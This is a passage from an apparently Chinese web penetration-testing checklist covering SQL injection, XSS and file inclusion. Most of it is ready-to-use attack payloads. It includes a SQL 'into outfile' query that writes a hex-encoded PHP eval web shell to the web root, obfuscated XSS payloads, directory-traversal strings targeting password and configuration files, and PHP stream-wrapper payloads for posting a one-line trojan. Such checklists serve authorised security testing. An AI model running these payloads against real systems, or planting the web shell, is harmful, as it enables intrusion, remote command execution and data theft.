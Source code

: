 如果存在SQL注入，管理员权限，其他数据库尝试RCE，MySQL尝试写文件（嘛，你的知道绝对路径），如：

```
select 0x3c3f70687020406576616c28245f524551554553545b22636d64225d293b203f3e into outfile '/var/www/shell.php'
```



## 1.6 xss测试payload（可以的话挂xray测吧）

```
<ScRiPt>alert(1)</sCrIpT>

'"><img/src=1>

<ImG sRc=1 OnErRoR=prompt(1)>

"-prompt(1)-"

"oNmOuSeOvEr=prompt(1)//

<sc<!--test-->ript>alert('1')</scr<!--taaa-->ipt>

javascript:alert(1111)

<svg><script>alert(XSS);</script>
```



## 1.7 文件包含测试 or 文件读取（可以的话挂xray测吧）

1. 测试本地文件包含，使用../测试是否能够目录穿越。

```
../
..%2F
%2E%2E/
%2E%2E%2F
.%2E/

如：
../../../../etc/passwd
../../../../windows/System32/drivers/etc/HOSTS
../../WEB-INF/web.xml
```

2. 如果存在文件包含，可以测试远程文件包含。

3. 如果有文件上传点白名单验证且有文件包含漏洞，可以尝试本地上传图片或其他格式的文件，结合文件包含进行利用。

4. 为协议需要allow_url_fopen与allow_url_include同时开启，鸡肋。

```
php://filter/convert.base64-encode/resource=

php://input # POST数据包写一句话木马。

data://text/plain,<?php phpinfo();?>

data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=

phar://xxx/x.php

zip://xxx/b.php
```
